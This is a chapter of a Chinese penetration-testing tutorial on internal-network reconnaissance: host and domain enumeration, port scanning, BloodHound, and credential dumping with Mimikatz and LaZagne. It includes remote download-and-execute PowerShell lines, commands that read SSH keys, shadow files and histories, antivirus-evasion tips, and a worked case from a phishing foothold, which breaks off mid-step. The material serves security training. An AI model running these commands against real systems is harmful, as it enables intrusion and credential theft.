






# 第47章 内网信息收集

> **难度等级：🟠 高等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：内网信息收集概述、本机信息收集、网络信息收集、存活主机探测、端口扫描、服务识别、域信息收集、凭据收集、BloodHound使用、5个实战案例**

::: tip 说明
恭喜进入内网渗透模块！
从这一章开始，
我们正式学习内网渗透技术。

内网渗透和外网渗透不一样，
外网是从外往里打，
内网是已经进去了，
要在里面横向移动、扩大战果。

内网渗透的第一步是什么？
没错，就是信息收集！

在内网里，
信息收集更加重要，
因为内网环境复杂，
域环境、各种服务器、
不同的网段...
你了解得越多，
后面的渗透就越顺利。

这一章我们就来系统学习
内网信息收集的各种方法。

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
很多人刚接触内网渗透的时候，
可能会有这样的疑问：

"我都已经拿到Shell了，
还收集什么信息？
直接横向移动不就行了？"

其实不是的。
内网就像一个迷宫，
你不先摸清地形，
怎么知道往哪走？

**内网信息收集的目的：**
1. 了解当前所处的位置（我在哪？）
2. 了解内网的网络结构（有哪些网段？）
3. 了解有哪些存活主机（有哪些机器？）
4. 了解这些机器上运行了什么服务（开了什么端口？）
5. 了解域环境信息（有没有域？域控在哪？）
6. 收集凭据（有哪些账号密码？）
7. 找到下一步的突破口（从哪下手？）

可以说，
信息收集做得好不好，
直接决定了内网渗透的成败。

老手打内网，
80%的时间在收集信息，
20%的时间在利用漏洞。
新手正好反过来，
拿到Shell就急着打，
结果四处碰壁。

所以，
耐心做好信息收集，
是内网渗透的第一步，
也是最重要的一步。
:::

---

> 💡 **大白话说内网信息收集**
>
> 进入内网后第一件事不是打，是"看地图"：
> - "我是谁？在哪？" — `whoami` / `ipconfig` 
> - "周围有哪些邻居？" — 存活主机探测
> - "邻居家有什么？" — 端口扫描
> - "有没有物业统一管理？" — 域环境判断
> - "我能拿到哪些门禁卡？" — 凭据收集
>
> 老手打内网，80%时间收集信息，20%时间利用漏洞。

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解内网信息收集的重要性
- [x] 掌握本机信息收集的各种方法
- [x] 学会网络信息收集（网段、存活主机、端口）
- [x] 掌握域环境信息收集方法
- [x] 学会收集各种凭据（密码、Hash、票据）
- [x] 了解BloodHound的使用
- [x] 建立内网信息收集的整体思路

**图47-1 内网信息收集整体流程图**



---

## 💻 本机信息收集

### 1.1 为什么要收集本机信息？

拿到一台机器的Shell后，
先别急着扫全网，
先把本机的信息摸清楚。

**本机信息能告诉我们什么？**
1. 这台机器的角色（是普通PC、服务器、还是域控？）
2. 有没有加入域（域环境还是工作组？）
3. 当前用户的权限
4. 有哪些网络接口（连了几个网段？）
5. 本机上保存了哪些凭据
6. 本机上运行了哪些服务
7. ...

这些信息能帮我们判断
下一步该往哪个方向走。

### 1.2 Windows本机信息收集

**基本信息：**
```cmd
:: 主机名
hostname

:: 系统信息
systeminfo

:: 操作系统版本
ver

:: 体系结构
echo %PROCESSOR_ARCHITECTURE%
```

**用户和权限：**
```cmd
:: 当前用户信息
whoami /all

:: 本地用户列表
net users

:: 本地组列表
net localgroup

:: 管理员组用户
net localgroup administrators

:: 当前登录的用户
query user
quser
```

**网络信息：**
```cmd
:: 网络接口配置
ipconfig /all

:: 路由表
route print

:: ARP表
arp -a

:: 网络连接
netstat -ano

:: hosts文件
type C:\Windows\System32\drivers\etc\hosts
```

**防火墙和杀毒软件：**
```cmd
:: 防火墙状态
netsh firewall show state
netsh advfirewall show allprofiles

:: 防火墙规则
netsh advfirewall firewall show rule name=all

:: 查看安装的软件（找杀软）
wmic product get name,version
:: 或者
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /s
```

**进程和服务：**
```cmd
:: 进程列表
tasklist /v
tasklist /svc
wmic process get name,processid,executablepath

:: 服务列表
net start
sc query state= all
wmic service get name,displayname,state,startmode,pathname
```

**计划任务：**
```cmd
:: 所有计划任务
schtasks /query /fo LIST /v
```

**最近文件和历史：**
```cmd
:: 最近打开的文件
dir "%APPDATA%\Microsoft\Windows\Recent\"

:: 运行历史
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU"

:: 搜索历史
:: 浏览器历史等
```

**快速信息收集脚本：**
推荐使用一些自动化脚本，比如：
- **Seatbelt** — C#编写的信息收集工具
- **Watson** — 枚举缺失的补丁
- **JAWS** — PowerShell脚本
- **WinPEAS** — 前面提权用过的，也能收集很多内网信息

### 1.3 Linux本机信息收集

**基本信息：**
```bash
# 主机名
hostname

# 系统信息
uname -a
cat /etc/os-release
cat /etc/issue

# 运行时间
uptime
```

**用户和权限：**
```bash
# 当前用户
id
whoami

# 所有用户
cat /etc/passwd

# 可以登录的用户
cat /etc/passwd | grep -E "/bin/bash|/bin/sh"

# 用户组
cat /etc/group

# 当前登录用户
w
who
last
```

**网络信息：**
```bash
# 网络接口
ip a
ifconfig

# 路由表
route -n
ip route

# ARP表
arp -a
ip neigh

# 网络连接
netstat -tulnp
ss -tulnp

# hosts文件
cat /etc/hosts

# DNS配置
cat /etc/resolv.conf
```

**进程和服务：**
```bash
# 进程列表
ps aux
ps -ef

# 服务列表
service --status-all
systemctl list-units --type=service
```

**计划任务：**
```bash
# 当前用户的crontab
crontab -l

# 系统crontab
cat /etc/crontab
ls -la /etc/cron.*
```

**其他信息：**
```bash
# 已安装软件
dpkg -l  # Debian/Ubuntu
rpm -qa  # CentOS/RHEL

# 历史命令
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.mysql_history
cat ~/.python_history

# SSH密钥
ls -la ~/.ssh/
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys

# 日志文件
ls -la /var/log/
```

**自动化工具：**
- LinPEAS / LinEnum — 信息收集脚本
- LinEnum — 另一个常用脚本

### 1.4 本机凭据收集

本机上可能保存了很多凭据，
这些凭据是横向移动的关键！

**Windows凭据收集：**

1. **Mimikatz** — 神器，能从内存中抓取明文密码和Hash
2. **LaZagne** — 抓取各种软件中保存的密码
3. **Windows凭据管理器** — 控制面板里存的密码
4. **浏览器保存的密码** — Chrome、Firefox等
5. **RDP连接保存的密码**
6. **WiFi密码**
7. **其他软件保存的密码** — FTP、数据库、邮箱等

**Mimikatz常用命令：**
```
privilege::debug
sekurlsa::logonpasswords   # 抓取登录密码
sekurlsa::ekeys            # 抓取Kerberos密钥
sekurlsa::tickets          # 抓取Kerberos票据
lsadump::lsa /patch        # 抓取SAM和LSA
```

**LaZagne：**
```cmd
# 抓取所有密码
laZagne.exe all

# 只抓特定类型
laZagne.exe browsers
laZagne.exe system
laZagne.exe databases
```

**Linux凭据收集：**
1. `/etc/shadow` — 密码Hash（需要root）
2. `/etc/passwd` — 用户信息
3. `~/.ssh/` — SSH密钥
4. `~/.bash_history` — 历史命令里可能有密码
5. 各种配置文件里的明文密码
6. LaZagne也有Linux版本

**记住：**
凭据收集非常重要，
很多时候内网渗透
就是靠收集到的密码和Hash
一路打穿的。

---

## 🌐 网络信息收集

### 2.1 网络拓扑与网段发现

拿到Shell后，
先看看这台机器连了几个网段，
内网的IP段是什么。

**查看网络接口：**
```cmd
:: Windows
ipconfig /all

# Linux
ip a
ifconfig
```

**查看路由表：**
```cmd
:: Windows
route print

# Linux
route -n
ip route
```

**常见的内网网段：**
- `10.0.0.0/8` — 大型内网常用
- `172.16.0.0/12` — 中型内网常用
- `192.168.0.0/16` — 小型内网/家用常用

**怎么判断有哪些网段？**
1. 看本机IP和子网掩码
2. 看路由表
3. 看ARP表
4. 扫C段，看看有没有存活主机
5. 看其他主机的ARP信息
6. 看代理配置
7. 看hosts文件

**图47-2 内网网络拓扑与网段发现示意图**



### 2.2 存活主机探测

知道了网段，
下一步就是找出这个网段里
有哪些主机是存活的。

**常用的探测方法：**

**1. ICMP探测（Ping扫描）**
```bash
# 简单的ping扫描
for i in {1..254}; do ping -c 1 -W 1 192.168.1.$i & done | grep from

# Windows的话
for /L %i in (1,1,254) do @ping -n 1 -w 200 192.168.1.%i | find "TTL="
```

优点：简单快速
缺点：很多机器禁ping，扫不到

**2. ARP探测**
```bash
# 看ARP表
arp -a

# 或者用arp-scan
arp-scan -l
arp-scan 192.168.1.0/24
```

优点：ARP一般不会被拦截，准确率高
缺点：只能扫同网段

**3. TCP端口扫描**
扫常用端口，
比如135、139、445、3389、22、80等。
只要有端口开着，说明主机存活。

**4. UDP探测**
扫UDP端口，比如53（DNS）、161（SNMP）等。

**5. 其他方法**
- SNMP扫描
- DNS区域传送
- NetBIOS扫描
- ...

**图47-3 存活主机探测方法对比图**



### 2.3 端口扫描

找到存活主机后，
就要扫这些主机开了哪些端口，
运行了什么服务。

**常用端口扫描工具：**

**1. Nmap** — 端口扫描神器
```bash
# 快速扫描
nmap -T4 -F 192.168.1.0/24

# 全端口扫描
nmap -T4 -p- 192.168.1.100

# 服务版本探测
nmap -sV 192.168.1.100

# 操作系统探测
nmap -O 192.168.1.100

# 脚本扫描
nmap --script=vuln 192.168.1.100
```

**2. Masscan** — 超快的端口扫描器
```bash
# 扫整个网段的445端口
masscan 192.168.1.0/24 -p445 --rate=1000
```

**3. Metasploit端口扫描模块**
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 1-1000
run
```

**4. 其他工具**
- Naabu — 快速端口扫描
- RustScan — Rust写的快速扫描器
- 各种PowerShell/bash脚本

**常用端口速查：**

| 端口 | 服务 | 说明 |
|------|------|------|
| 21 | FTP | 文件传输，可能有匿名登录 |
| 22 | SSH | 远程登录，可以尝试弱口令 |
| 23 | Telnet | 明文远程登录 |
| 25 | SMTP | 邮件服务 |
| 53 | DNS | 域名服务，可能有区域传送 |
| 80/443 | HTTP/HTTPS | Web服务 |
| 110 | POP3 | 邮件 |
| 135 | RPC | Windows RPC |
| 139 | NetBIOS | 文件共享 |
| 143 | IMAP | 邮件 |
| 161 | SNMP | 简单网络管理协议，可能有默认社区名 |
| 389 | LDAP | 轻量目录访问协议 |
| 445 | SMB | Windows文件共享，永恒之蓝就是这个 |
| 443 | HTTPS | 加密的Web |
| 1433 | MSSQL | SQL Server数据库 |
| 1521 | Oracle | Oracle数据库 |
| 3306 | MySQL | MySQL数据库 |
| 3389 | RDP | 远程桌面 |
| 5432 | PostgreSQL | PostgreSQL数据库 |
| 5900 | VNC | 远程桌面 |
| 6379 | Redis | Redis数据库，经常有未授权访问 |
| 8080 | HTTP代理/备用 | 经常是Web管理后台 |
| 27017 | MongoDB | MongoDB数据库，经常未授权 |

**图47-4 常见内网端口与服务分类图**



### 2.4 服务识别与漏洞探测

扫到端口后，
还要进一步识别服务的版本，
看看有没有已知漏洞。

**服务版本探测：**
```bash
# Nmap的-sV参数
nmap -sV -p 22,80,445,3389 192.168.1.100
```

**漏洞扫描：**
- **Nmap脚本** — `--script=vuln`
- **Nessus** — 专业漏洞扫描器
- **OpenVAS** — 开源漏洞扫描器
- **MSF的扫描模块** — 很多auxiliary模块

**常见的内网漏洞：**
- MS17-010（永恒之蓝）— 445端口
- MS08-067 — 445端口
- 弱口令（SSH、RDP、数据库、后台）
- 未授权访问（Redis、MongoDB、Elasticsearch等）
- 各种中间件漏洞（WebLogic、JBoss、Tomcat等）

### 2.5 端口扫描的注意事项

1. **注意隐蔽性**
   - 内网扫描动静太大容易被发现
   - 控制扫描速度，不要太暴力
   - 护网行动中被检测到可能扣分

2. **注意防火墙**
   - 防火墙可能拦截扫描
   - 可以试试不同的扫描方式
   - 可以从不同的机器扫

3. **从目标机器上扫 vs 从我们的机器扫**
   - 从目标机器上扫更隐蔽
   - 但目标机器上可能没有扫描工具
   - 可以上传小工具，或者用系统自带的工具

4. **注意网段限制**
   - 有些网段可能访问不到
   - 需要跳板或者代理

---

## 🏛️ 域环境信息收集

### 3.1 怎么判断有没有域？

很多企业内网都有域（Domain），
域环境的渗透和工作组不一样。
所以第一步要判断：
这台机器有没有加入域？
在哪个域里？

**判断方法：**

**Windows：**
```cmd
:: 查看计算机名和域名
systeminfo | findstr /B /C:"Domain"

:: 或者
ipconfig /all | findstr /i "Primary Dns Suffix"

:: 或者
net config workstation

:: 查看当前用户的域
echo %USERDOMAIN%

:: 查看登录域
echo %LOGONSERVER%
```

如果显示的域名不是WORKGROUP，
那就是加入了域。

**Linux：**
```bash
# 查看DNS域名
hostname -d
cat /etc/resolv.conf

# 如果是域成员的话
realm list
adcli info 域名
```

### 3.2 域基本信息收集

**基本信息：**
```cmd
:: 查看域
net view /domain

:: 查看域内的计算机
net view /domain:域名

:: 查看域控
nltest /dclist:域名

:: 查看域管理员
net group "domain admins" /domain

:: 查看企业管理员
net group "enterprise admins" /domain

:: 查看所有域用户
net users /domain

:: 查看域组
net groups /domain

:: 查看域密码策略
net accounts /domain

:: 查看当前域信任关系
nltest /domain_trusts
```

**常用命令总结：**

| 命令 | 作用 |
|------|------|
| `net view /domain` | 查看所有域 |
| `net view /domain:域名` | 查看域内的计算机 |
| `net user /domain` | 查看所有域用户 |
| `net group /domain` | 查看所有域组 |
| `net group "Domain Admins" /domain` | 查看域管理员组成员 |
| `net accounts /domain` | 查看域密码策略 |
| `nltest /dclist:域名` | 列出所有域控 |
| `nltest /domain_trusts` | 查看域信任关系 |

### 3.3 AD信息收集（PowerView）

PowerView是PowerSploit里的一个模块，
专门用来收集Active Directory的信息，
非常强大。

**加载PowerView：**
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://你的IP/PowerView.ps1")
```

**常用命令：**
```powershell
# 获取域信息
Get-NetDomain

# 获取所有域用户
Get-NetUser
Get-NetUser | select name

# 获取所有域计算机
Get-NetComputer
Get-NetComputer | select name

# 获取所有域组
Get-NetGroup
Get-NetGroup | select name

# 获取域管理员组的成员
Get-NetGroupMember -GroupName "Domain Admins"

# 获取域控
Get-NetDomainController

# 获取域中的OU
Get-NetOU

# 获取GPO（组策略）
Get-NetGPO

# 获取访问控制列表
Get-ObjectAcl

# 查找域管理员登录过的机器
Find-LocalAdminAccess

# 查找共享
Invoke-ShareFinder

# 查找敏感文件
Find-InterestingFile

# 查找用户属性中的密码（描述等）
Get-UserProperty -Properties pwdlastset,lastlogon,description
```

### 3.4 BloodHound — 域关系可视化神器

BloodHound是一个非常强大的工具，
它能把域内的各种关系
（用户、组、计算机、ACL等）
用图形化的方式展示出来，
一眼就能看出从哪里能打到哪里。

**BloodHound的组成：**
1. **数据采集端（SharpHound）** — 在目标机器上收集数据
2. **数据分析端（BloodHound）** — 在我们自己的机器上分析和展示

**使用步骤：**

**第一步：采集数据**
在已经控制的域内机器上运行SharpHound，
收集域信息。

```powershell
# 加载SharpHound
IEX (New-Object Net.WebClient).DownloadString("http://你的IP/SharpHound.ps1")

# 收集所有数据
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\tmp\ -OutputPrefix "bloodhound"
```

会生成一个zip文件，
把这个文件下载下来。

**第二步：导入分析**
在我们自己的机器上打开BloodHound，
把zip文件导进去，
就可以看到域的关系图了。

**BloodHound能做什么？**
1. 找出从当前用户到域管理员的路径
2. 查找有本地管理员权限的用户
3. 查找Kerberoastable用户
4. 查找AS-REP Roasting的目标
5. 分析ACL关系
6. 查找会话
7. ...

**最常用的查询：**
- `Find Shortest Path to Domain Admins` — 到域管理员的最短路径
- `Find All Domain Admins` — 所有域管理员
- `Find Kerberoastable Users` — 可以Kerberoast的用户
- `Find Computers where Domain Users are Local Admin` — 域用户有本地管理员权限的机器
- `Find Workstations where Domain Users can RDP` — 域用户可以RDP的工作站

BloodHound真的是内网神器，
强烈推荐学会用它！

**图47-5 域环境信息收集工具与流程图**



### 3.5 其他域信息收集方法

**1. LDAP查询**
可以通过LDAP协议查询Active Directory。
ADSIEdit、LDP等工具都可以。

**2. 枚举登录会话**
看看哪些用户登录了哪些机器，
可以找高权限用户的会话，
然后想办法偷令牌或者抓Hash。

**3. 组策略（GPO）信息收集**
组策略里可能有密码，
或者可以通过修改组策略来提权。

**4. SPN扫描（Kerberoast）**
服务主体名称（SPN）扫描，
可以找到哪些账户注册了SPN，
然后可以申请这些SPN的票据，
离线破解密码。

（后面域渗透的章节会详细讲）

---

## 🔑 凭据收集

### 4.1 凭据收集的重要性

内网渗透中，
凭据收集可以说是最重要的环节之一。
为什么？

因为很多时候，
内网机器的补丁都打得很全，
远程漏洞很难找。
但是如果我们有了账号密码，
那就简单多了，
直接登录就行。

而且企业里很多人喜欢密码复用，
一个密码用在很多地方。
只要拿到一个密码，
可能能登录很多机器。

**可以收集到的凭据类型：**
1. 明文密码
2. NTLM Hash
3. LM Hash
4. Kerberos票据（TGT、ST）
5. AES密钥
6. SSH密钥
7. 各种应用保存的密码

### 4.2 Windows凭据收集

**1. Mimikatz**
这个前面已经提到过了，
Mimikatz是Windows凭据收集的神器。

**常用功能：**
```
# 提升权限
privilege::debug

# 抓取登录密码（明文）
sekurlsa::logonpasswords

# 抓取Kerberos票据
sekurlsa::tickets /export

# 抓取EKey（AES密钥）
sekurlsa::ekeys

# 读取SAM数据库
lsadump::sam

# 读取LSA
lsadump::secrets

# DCSync（需要权限）
lsadump::dcsync /user:krbtgt
```

**注意：**
Mimikatz很容易被杀毒软件查杀，
使用的时候可能需要免杀。

**2. LaZagne**
可以抓取几乎所有常见软件的密码：
- 浏览器（Chrome、Firefox、IE、Edge等）
- 邮件客户端（Outlook、Thunderbird等）
- FTP客户端（FileZilla、WinSCP等）
- 远程管理工具（RDP、VNC、PuTTY等）
- 数据库客户端
- 系统凭据管理器
- WiFi密码
- ...

**3. Windows凭据管理器**
Windows自己的凭据管理器里
可能保存了很多密码。

查看方法：
```cmd
:: 命令行查看
cmdkey /list
```

**4. 浏览器密码**
Chrome、Firefox、Edge等浏览器
都会保存用户的登录密码，
如果能拿到这些密码，
价值很高。

工具：
- LaZagne
- Mimikatz的dpapi模块
- ChromePasswordDecryptor
- ...

**5. 注册表中的密码**
有些软件会把密码存在注册表里，
比如：
- VNC
- SNMP
- 某些远程管理软件
- ...

**6. 历史命令和最近文件**
从历史命令、最近打开的文件里
可能能找到密码。

### 4.3 Linux凭据收集

**1. /etc/shadow和/etc/passwd**
有root权限的话，
直接读这两个文件。

**2. SSH密钥**
```bash
ls -la ~/.ssh/
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys
# 还有其他用户的家目录
```

**3. 历史命令**
```bash
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.mysql_history
cat ~/.python_history
cat ~/.psql_history
# ...
```

**4. 配置文件中的明文密码**
很多应用的配置文件里有明文密码：
- Web应用配置文件
- 数据库配置文件
- 中间件配置文件
- ...

```bash
# 找配置文件里的密码
grep -r "password" /var/www/html/ 2>/dev/null
grep -r "passwd" /etc/ 2>/dev/null
```

**5. 内存中的密码**
可以用Mimipenguin（Linux版的Mimikatz）
从内存中抓取密码。

**6. LaZagne**
LaZagne也有Linux版本，
同样可以抓取各种密码。

### 4.4 哈希传递与票据传递

收集到Hash和票据之后，
不一定非要破解出明文，
可以直接用Hash或票据来登录。

**哈希传递（Pass-the-Hash, PtH）**
用NTLM Hash直接登录，
不需要明文密码。

常用工具：
- mimikatz
- psexec（MSF里的）
- wmiexec
- smbexec
- CrackMapExec
- ...

**票据传递（Pass-the-Ticket, PtT）**
用Kerberos票据登录，
不需要密码。

常用工具：
- mimikatz
- Rubeus
- Impacket套件

（这些后面的章节会详细讲）

**图47-6 内网凭据收集与利用链路图**



### 4.5 凭据收集的注意事项

1. **权限要求**
   - 抓取内存中的密码一般需要管理员/System权限
   - 读取SAM需要System权限
   - 所以一般先提权，再抓密码

2. **杀毒软件**
   - Mimikatz这类工具很容易被杀
   - 可能需要免杀
   - 或者用更隐蔽的方式

3. **凭据的利用价值**
   - 明文密码 > NTLM Hash > Kerberos票据
   - 但各有各的用途
   - 都要收集

4. **横向移动**
   - 收集到的凭据可以用来横向移动
   - 在新的机器上又能收集到新的凭据
   - 滚雪球一样，越打越大

> 💡 **深入理解：凭据收集 → 横向移动 → 滚雪球——内网渗透的"正反馈循环"**
>
> 内网渗透有一个非常核心的"正反馈"逻辑：
> 越往里打，凭据越多 → 凭据越多，能去的机器越多 → 能去的机器越多，凭据更多...
> 这就是"滚雪球"（snowballing effect）。
>
> 这个正反馈循环能成立，是因为企业内部普遍存在的一个
> 安全管理的"痛点"——**凭据复用**：
>
> ```
> 理想的安全管理：每个系统用不同的密码，管理员账号专属
> 
> 现实的"方便管理"：
>   - 所有服务器用了同一个域管理员账号
>   - IT支持人员用的域账号对几十台机器都有管理员权限
>   - 数据库服务器的 sa 密码三年没变
>   - 很多服务的密码写在配置文件中明文存储
> ```
>
> 所以内网渗透的路径通常是：
> ```
> 一台边缘Web服务器（普通权限）
>    → 提权（发现服务用了高权限账号）
>    → 抓到了ITSupport域账号的密码
>    → 用这个账号哈希传递到其他20台服务器
>    → 在其中一台抓到域管理员的会话票据
>    → 用域管票据访问域控 → DCSync → 拿到全部Hash
>    → 整个域沦陷！
>
> 每多控制一台机器，就能收割这台机器上的所有"密码残渣"：
> - 内存中的明文密码和Hash（Mimikatz）
> - 浏览器保存的密码（LaZagne）
> - 配置文件中的密码（web.config、.env）
> - SSH私钥（~/.ssh/id_rsa）
> - Windows凭据管理器中的密码
> - 历史命令中的密码痕迹
>
> 这就是为什么内网渗透中"信息收集/凭据收集"如此重要：
> **每一台机器都是一个潜在的密码宝库，每次横向移动都打开新宝库。**
>
> 红队的核心策略就是：让这个正反馈循环转起来，越转越快！

---

## 🎯 真实案例

### 案例1：工作组环境内网信息收集

**场景：**
通过钓鱼拿到了一台员工机的Shell，
是工作组环境，不是域。

**信息收集流程：**

**第一步：本机信息收集**
```cmd
hostname
# DESKTOP-XXX

whoami /all
# 本地用户，普通权限

systeminfo
# Windows 10 专业版
# 192.168.31.105
```

**第二步：网络信息收集**
```cmd
ipconfig /all
# 只有一个网卡
# IP: 192.168.31.105
# 网关: 192.168.31.1
# DNS: 192.168.31.1

arp -a
# 看到了192.168.31.1（网关）
# 还有 192.168.31.100~110 好几台
```

**第三步：存活主机探测**
```cmd
# 扫C段
for /L %i in (1,1,254) do @ping -n 1 -w 200 192.168.31.%i | find "TTL="
```
扫出来大概有30台存活主机。

**第四步：端口扫描**
上传一个端口扫描工具，
扫这些存活主机的常用端口。

发现：
- 几台开了445（SMB）
- 几台开了3389（RDP）
- 一台开了1433（MSSQL）
- 一台开了80/443（Web）
- 路由器开了80（管理后台）

**第五步：凭据收集**
先在本机提权到管理员，
然后用Mimikatz抓密码。
抓到了当前用户的明文密码。

**第六步：密码复用尝试**
